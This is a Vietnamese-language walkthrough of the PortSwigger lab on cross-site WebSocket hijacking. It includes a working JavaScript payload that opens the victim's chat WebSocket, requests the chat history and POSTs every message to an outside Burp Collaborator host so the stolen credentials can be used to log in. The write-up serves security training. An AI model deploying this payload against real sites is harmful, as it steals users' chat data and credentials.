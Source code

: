 🧪 #Lab: Cross-site WebSocket Hijacking (PortSwigger)
🔗 #Lab URL: https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab

🧠 #Phân tích kỹ thuật đề bài
Ứng dụng là một cửa hàng trực tuyến có tích hợp tính năng live chat sử dụng WebSocket để truyền và nhận tin nhắn theo thời gian thực.

✅ #Điểm yếu bảo mật:
WebSocket không yêu cầu CSRF token khi handshake.

Cookie phiên của người dùng vẫn được gửi trong quá trình WebSocket handshake từ bất kỳ origin nào.

Cho phép kẻ tấn công tạo một script độc hại khiến trình duyệt của nạn nhân tự động kết nối lại WebSocket bằng session hợp lệ của họ.

🧩 #Mục tiêu
Sử dụng tính năng Exploit Server để gửi một trang HTML chứa script khai thác đến nạn nhân, đánh cắp lịch sử chat của họ. Trong đó có chứa username và password, từ đó đăng nhập và hoàn thành lab.

🔍 #Bước 1: Quan sát hoạt động của WebSocket
Truy cập lab, nhấn vào "Live chat".

Gửi một tin nhắn bất kỳ.

Reload lại trang.

Mở Burp Suite → Proxy → WebSockets history:

Quan sát thấy client gửi chuỗi "READY" → server phản hồi bằng toàn bộ lịch sử tin nhắn.

Đây là chuỗi quan trọng mà attacker cần gửi để server gửi lịch sử về.

![image](https://github.com/user-attachments/assets/437785b0-5ee3-458e-bb29-22600978b071)

Mở Burp → Proxy → HTTP history:

Tìm yêu cầu handshake WebSocket (thường là GET /chat với Upgrade: websocket).

Kiểm tra và xác nhận: không có CSRF token trong header.

![image](https://github.com/user-attachments/assets/34d82764-0e63-4957-bb6c-d0cf4d3121c8)

💥 #Bước 2: Khai thác bằng JavaScript
Truy cập Exploit Server, dán đoạn script sau vào phần Body của payload:

<script>
    var ws = new WebSocket('wss://<your-lab-id>.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<your-collaborator-id>.oastify.com', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
</script>
🔧 Lưu ý:

Thay <your-lab-id> bằng lab ID của bạn (copy từ yêu cầu handshake WebSocket).

Thay <your-collaborator-id> bằng Burp Collaborator payload.

🔁 #Quy trình khai thác
Nạn nhân truy cập trang exploit.

Script chạy trên trình duyệt của nạn nhân.

Trình duyệt tự động mở WebSocket đến /chat với cookie hợp lệ.

Gửi "READY" → nhận toàn bộ lịch sử chat.

Từng tin nhắn được gửi về máy chủ attacker (qua Burp Collaborator).

Attacker thu được thông tin đăng nhập trong nội dung chat.

![image](https://github.com/user-attachments/assets/f2ac2644-962b-47b0-9372-d0ee47e0545f)

🧩 #Bước 3: Đăng nhập và hoàn thành Lab
Mở Burp → Collaborator tab → Poll now.

Kiểm tra các request chứa lịch sử chat → tìm username và password.

Dùng thông tin đó để đăng nhập và hoàn thành lab.

✅ #Kết luận
Lỗi WebSocket hijacking xảy ra khi:

WebSocket không kiểm tra Origin hoặc CSRF token.

Trình duyệt gửi cookie tự động trong kết nối WebSocket → cho phép trang bên ngoài "hijack" session hiện tại.

